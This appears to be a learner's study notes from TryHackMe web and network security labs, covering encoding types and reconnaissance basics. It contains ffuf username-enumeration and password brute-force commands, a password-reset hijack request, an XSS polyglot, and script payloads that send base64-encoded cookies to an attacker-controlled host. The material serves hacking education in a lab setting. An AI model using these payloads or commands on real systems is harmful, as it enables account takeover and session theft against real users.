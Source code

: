 # Commands

```powershell

ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/signup -mr "username already exists"

```

In the above example, the -w argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.

```powershell
# brute force attack
ffuf -w ./HackingPython/THM-WordsList/valid-usernames.txt:W1,./SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d  "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.215.241/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen W1 for our list of valid usernames and W2 for the list of passwords we will try. The multiple wordlists are again specified with the -w argument but separated with a comma.  For a positive match, we're using the -fc argument to check for an HTTP status code other than 200.

curl 'http://10.10.215.241/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=paolo@customer.acmeitsupport.thm'

## XSS polyglot

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
```html
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
</textarea><script>fetch('http://10.10.10.100/?cookie=' + btoa(document.cookie) );</script>
</textarea><script>fetch('http://ff3eff8746b0e6d2ba0fbfe277f7d9c2.log.tryhackme.tech?cookie=' + btoa(document.cookie) );</script>
```

## Encoding Information

Different type of encoding:

- Plain: Plaintext is what we have before performing any transformations.
- URL: URL encoding is used to make data safe to transfer in the URL of a web request. It involves exchanging characters for their ASCII character code in hexadecimal format, preceded by a percentage symbol (%). Url encoding is an extremely useful method to know for any kind of web application testing.
For example, let's encode the forward-slash character (/). The ASCII character code for a forward slash is 47. This is "2F" in hexadecimal, making the URL encoded forward-slash %2F. We can confirm this with Decoder by typing a forward slash in the input box, then selecting Encode as -> URL:
- HTML: Encoding text as HTML Entities involves replacing special characters with an ampersand (&) followed by either a hexadecimal number or a reference to the character being escaped, then a semicolon (;). For example, a quotation mark has its own reference: &quot;. When this is inserted into a webpage, it will be replaced by a double quotation mark ("). This encoding method allows special characters in the HTML language to be rendered safely in HTML pages and has the added bonus of being used to prevent attacks such as XSS (Cross-Site Scripting).
- Base64: Another widely used encoding method, base64 is used to encode any data in an ASCII-compatible format. It was designed to take binary data (e.g. images, media, programs) and encode it in a format that would be suitable to transfer over virtually any medium. How this works under the hood is not important at this point; however, if you are interested, you can read the maths behind it [here](https://stackabuse.com/encoding-and-decoding-base64-strings-in-python/).
- ASCII Hex: This option converts data between ASCII representation and hexadecimal representation. For example, the word "ASCII" can be converted into the hexadecimal number "4153434949". Each letter in the original data is taken individually and converted from numeric ASCII representation into hexadecimal. For example, the letter "A" in ASCII has a decimal character code of 65. In hexadecimal, this is 41. Similarly, the letter "S" can be converted to hexadecimal 53, and so on.
- Hex, Octal, and Binary: These encoding methods all apply only to numeric inputs. They convert between decimal, hexadecimal, octal (base eight) and binary.
- Gzip: Gzip provides a way to compress data. It is widely used to reduce the size of files and pages before they are sent to your browser. Smaller pages mean faster loading times, which is highly desirable for developers looking to increase their SEO score and avoid annoying their customers. Decoder allows us to manually encode and decode gzip data, although this can be hard to process as it is often not valid ASCII/Unicode.
- Hex Format, Inputting data in ASCII format is great, but sometimes we need to be able to edit our input byte-by-byte. For this, we can use "Hex View" by choosing "Hex" above the decoding options;

## Network Security

Things to remember:
- passive reconnaissance
- active reconnaissance
- nmap live host discovery
- nmap basic port scans
- nmap advanced port scans
- nmap post port scans
- protocols and server
- network security challenge

<bold>Reconnaisance</bold>

It's about getting information about the system to hack, it is divided in passive and active.
- passive: In passive reconnaissance, you rely on publicly available knowledge. It is the knowledge that you can access from publicly available resources without directly engaging with the target. Think of it like you are looking at target territory from afar without stepping foot on that territory.

- active: cannot be achieved so discreetly. It requires direct engagement with the target. Main activities: a) Connecting to one of the company servers such as HTTP, FTP, and SMTP, 2) Calling the company in an attempt to get information (social engineering) and c) Entering company premises pretending to be a repairman.

WHOIS is a request and response protocol that follows the RFC 3912 specification. A WHOIS server listens on TCP port 43 for incoming request


```powershell
whois
nslookup # query dns database records
dig # query database dns records
```

## Reference

[](https://crackstation.net/)  
[RCE Payloads](https://github.com/payloadbox/command-injection-payload-list)  
[dns dumpster](https://dnsdumpster.com/)  
[shodan.io](https://www.shodan.io/)  
[unified kill chain](https://www.unifiedkillchain.com/)  
[DNSSEC](https://blog.apnic.net/2020/03/02/dnssec-validation-revisited/)  


